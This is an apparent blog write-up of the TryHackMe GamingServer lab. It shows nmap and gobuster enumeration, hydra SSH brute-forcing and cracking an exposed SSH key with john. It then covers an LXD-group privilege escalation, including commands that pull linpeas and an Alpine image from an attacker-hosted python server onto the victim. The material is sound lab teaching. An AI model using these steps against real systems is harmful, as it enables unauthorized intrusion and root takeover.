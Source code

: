 ```yaml
---
permalink: /GamingWriteup.html
---
```


![thumbnail](https://i.imgur.com/lZRim5g.jpg = 250x250)

## Tryhackme Gaming Server Writeup.

This writeup is on the [Tryhackme GamingServer](https://tryhackme.com/room/gamingserver) machine.
It is an easy level machine, and is described as: > An Easy Boot2Root box for beginners

This is how I got both flags.

## Enumerating.

First, I started off with a simple nmap scan.

```
nmap -sC -sV -v -oA gamingserver *machine_ip*
```

This showed me that there were two ports open on the machine, port 22 for *SSH* and port 80 for *HTTP*

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Since there was a webpage, I directed my attention there first. 
Simply checking the source of the websites index page showed a comment at the bottom referring to a user named *john*
I ran hydra in the background to attempt to bruteforce his password, but nothing came up.

```
hydra -l john -P *path to wordlist* *machine_ip* ssh
```

Running gobuster using the common.txt wordlist from dirb revealed a /secret directory and an /uploads directory.
The /secret directory seemed out of place, so I checked there first.

![Secret Page](https://i.imgur.com/FYrdjNd.png)

In the /secret index there was a single file named *"SecretKey"* and opening it revealed a private ssh key.
I copied it to my folder and gave it the right permissions.

```
chmod 600 SecretKey
```

Under the folder /uploads there were a few files and a wordlist which I assumed would be for bruteforcing something. So I saved it to my machine.

![wordlist](https://i.imgur.com/BoiE8ui.png)

Simply ssh'ing into the machine under *John* prompted us with a password for the ssh key. No problem.
John the ripper should be good enough for this job!.
First i used ssh2john to format the key into something john the ripper can read.

```
/usr/share/john/ssh2john.py SecretKey > keyhash
```
Next, I ran the wordlist I found earlier in the uploads directory on the hash.

```
john keyhash -w=dict.lst
```

Boom! Found it!

![password](https://i.imgur.com/gvMwN2e.png)

## Getting User.txt

Now I have a way to access the machine, we can use ssh to log in as the *John* user.

```
ssh -i SecretKey john@machine_ip
```

When prompted for a passphrase, we enter the one found by john the ripper earlier.

Now all we have to do is *ls* and we have the user.txt

![lstouser](https://i.imgur.com/QWbXKr5.png)

## Privesc to Root.txt

This one stumped me for a second, I haven't heard of this privesc until now,
so finding it was more tedious than it should've.

Let's run linpeas on the machine to find any privesc vectors.
First, we create a python server in the folder where we have our [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script stored.

```
*ATTACKER MACHINE* sudo python3 -m http.server
```

Then we download the script on the victim machine

```
*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh
```
From there it's as simple as running chmod and executing the script.

```
chmod +x linpeas.sh
./linpeas.sh
```

Once linpeas is finished, we need to find anything red, or highlighted. Highlighted items are 99% of the time privesc vectors, and red items are ones that should
be checked out if none of the highlighted items work.
Here, we can see that root and lxd are highlighted.

![linpeasr](https://i.imgur.com/ZcRVxi2.png)

Initially I thought it would be as simple as running *sudo su* and gaining root privs, but that just led me down a rabbit hole of scouring the machine for johns
real credentials.
After a while, I realised that the lxc item was the privesc vector I was supposed to be focusing on, so after a bit of googling I found [This Privesc](https://www.exploit-db.com/exploits/46978) on exploit-db
To use this privesc, we must first download a build script on our attacker machine and make a tar.gz file to be uploaded to the victim machine.
This is done with:

```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine```

After that, we compile/build it with:

```sudo bash build-alpine```

After running this commmand, we should have an alpine.tar.gz in our attacker directory. This will be uploaded to the victim machine.
As before with linpeas, we must start a python server on our attacker machine.

```*ATTACKER MACHINE* sudo python3 -m http.server```

And upload it to the victim.

```*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20200831_1414.tar.gz```

The exploit then requires that we run a script to complete the privesc, it's on the exploit-db page linked above.
What I did was create an sh script with:

```nano exploit.sh``` 

And copy paste the script from the exploit-db page to the script on the victims machine, and then chmod +x the script to make it executable.

```chmod +x exploit.sh```

Once we run the script, we should achieve the privesc and become root.

```./exploit.sh -f alpine-v3.12-x86_64-20200831_1414.tar.gz```

Boom! We have achieved root privileges!!

![root](https://i.imgur.com/blIf2iY.png)

Once we cd to /mnt/root/root we can *ls* and find our sweet, sweet, root.txt

![rootxt](https://i.imgur.com/uEVyjAm.png)

## Thank you for reading!

This was a fun machine, thank you to the creator and thank you to YOU! for reading my writeup.
Until next time. :)
Stay sane.



